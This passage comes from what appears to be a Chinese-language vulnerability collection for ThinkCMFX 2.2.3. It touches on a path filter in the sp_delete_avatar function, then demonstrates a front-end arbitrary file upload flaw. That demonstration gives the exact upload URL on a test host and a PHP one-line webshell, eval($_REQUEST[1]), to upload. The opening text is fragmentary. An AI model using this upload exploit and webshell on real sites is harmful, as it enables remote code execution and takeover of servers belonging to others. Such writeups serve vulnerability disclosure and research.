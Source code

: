 从文件可以看到 \$imgurl=str\_replace(\'/\',\'\',\$imgurl); 过滤了 /
但是没有过滤 所以我们无法引入 / 并且在更新头像以后还会从前端接收参数
imgurl 带入函数sp\_delete\_avatar 跟进去

路径：ThinkCMFX\\application\\Common\\Common\\function.php
方法：function sp\_delete\_avatar(

![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId43.jpg)

#### 0x04 前台任意上传漏洞

##### 0x04.1 漏洞演示

记得一定要登录! 记得一定要登录! 记得一定要登录!
记得在前台注册一个账号进行登录或是直接登录后台然后在访问此地址

    打开url: http://atest.test/cms/ThinkCMFX_2.2.3/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile
    POST:
    file = php一句话木马的文件

    1.php
    <?php
    eval($_REQUEST[1]); 
    ?>

![](./resource/THINKCMFX_2.2.3漏洞合集/media/rId46.png)
